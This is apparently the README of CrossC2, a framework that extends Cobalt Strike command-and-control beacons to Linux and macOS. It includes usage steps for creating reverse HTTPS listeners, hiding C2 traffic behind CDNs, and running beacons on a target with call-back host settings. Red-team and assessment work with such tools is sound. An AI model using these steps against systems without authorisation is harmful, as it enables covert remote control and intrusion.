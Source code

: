 # CrossC2 framework

[![ Linux ](https://svgshare.com/i/Zhy.svg)](https://svgshare.com/i/Zhy.svg)
[![ macOS ](https://svgshare.com/i/ZjP.svg)](https://svgshare.com/i/ZjP.svg)
[![GitHub issues-closed](https://img.shields.io/github/issues-closed/gloxec/CrossC2.svg)](https://GitHub.com/gloxec/CrossC2/issues?q=is%3Aissue+is%3Aclosed)
[![Release](https://img.shields.io/github/release/gloxec/CrossC2.svg)](https://github.com/gloxec/CrossC2/releases/latest)
[![Downloads](https://img.shields.io/github/downloads/gloxec/CrossC2/total?label=Release%20Download)](https://github.com/gloxec/CrossC2/releases/latest)



<p align="center">
  <img alt="CrossC2 Logo" src="media/16292585578533/CrossC2_logo.png" height="30%" width="30%">
</p>


[README](README.md) | [中文文档](README_zh.md) | [README_FULL](README_full.md) | [中文完整文档](README_zh_full.md) 


# CobaltStrike support

Support CobaltStrike's security assessment of other platforms (Linux/MacOS/...), and include the development support of Unix post-penetration module

|                 | CS3.14(bug fixes) | CS4.0 | CS4.X (>=4.1) |
|-----------------|----------|-------|---------------|
| Master branch        | ✅        |       |               |
| cs4.0 branch         |          | ✅     |               |
| cs4.1 branch         |          |       | ✅             |
|                 |          |       |               |
| Release Page <= v2.1 | ✅        |       |               |
| Release Page >= v2.2 |          |       | ✅             |

# Usage

## 1. Download

Download `CrossC2.cna` `genCrossC2` `CrossC2Kit` from [release](https://github.com/gloxec/CrossC2/releases), then modify `CrossC2.cna` configuration

## 2. Create listener and copy key

* Create `windows/beacon_https/reverse_https` listener
* Copy `.cobaltstrike.beacon_keys` in **teamserver directory** to **local**

## 3. Function extension

* Add `CrossC2Kit_Loader.cna`, including memory loading and other functions
* `cs4.x` version file management, process list function is missing, you must use this Loader to restart

## 4. Generate beacon

Use the GUI function provided by cli or cna to generate beacon by default

* When teamserver is configured with c2profile, the rebind library needs to be generated in advance for use when generating beacon
* When using the forwarding method, in addition to specifying the rebind library, you also need to pay attention to the C2_HOST field when generating:
    * When the service provider uses the HTTP request content to verify the type, it needs to specify the CDN IP list: `genCrossC2 1.1.1.1,2.2.2.2,3.3.3.3,xxx.xxx.xxx.xx ...`
    * When the CDN server is verified by SNI, CDN operators such as Cloudflare need to specify the domain name bound to the CDN: `genCrossC2 c2.domain.com ...`

Rebind library related introduction: 
* [📖wiki](https://gloxec.github.io/CrossC2/zh_cn/protocol/)
* Demo: 
    * C2Profile demo [📄demo_c2profile.profile](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/https.profile) [📄demo_c2profil_rebind.c](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/c2profile.c) 
    * UDP communication demo [📄demo_udp_proxy_server.c](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/proxy_udp.py) [📄demo_udp_rebind.c](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/rebind_udp.c)
* Issues: [🏷issue #65 (Example of data transfer and c2profile field correspondence)](https://github.com/gloxec/CrossC2/issues/65)、[🏷issue #89 (Data processing example)](https://github.com/gloxec/CrossC2/issues/89#issuecomment-861194022)

## 5. Run beacon

* Run the one-click online script generated by the CrossC2 plugin on the target
* After uploading the beacon to the target machine for empowered operation
* Set the working directory for beacon and run: `export CCPATH=/opt/ && /tmp/c2`
* Temporarily specify the protocol library for beacon and run: `/tmp/c2 /tmp/c2-rebind.so`
* Temporarily set C2 configuration for beacon: `export CCHOST=127.0.0.1 && export CCPORT=443 && /tmp/c2`
* Set DEBUG to view the online status of beacon: `export CCDEBUG=1 && /tmp/c2`

# Note

`Only for internal use by enterprises and organizations, this framework has a certain degree of instability. Non-professionals are not allowed to use it. Anyone shall not use it for illegal purposes and profitability. Besides that, publishing unauthorized modified version is also prohibited, or otherwise bear legal responsibilities.`

# Todo

1. http-proxy (auth) & socks proxy back connection support
2. node beacon? (Single node type, can host other beacon without relying on teamserver)
3. Linux & MacOS side so/dylib's reverse shell support, and its derivative process injection functions

# Thank

Thanks to **@Emma** for the Logo designed for CrossC2, which is designed in the style of **Armitage** and **CobaltStrike** series
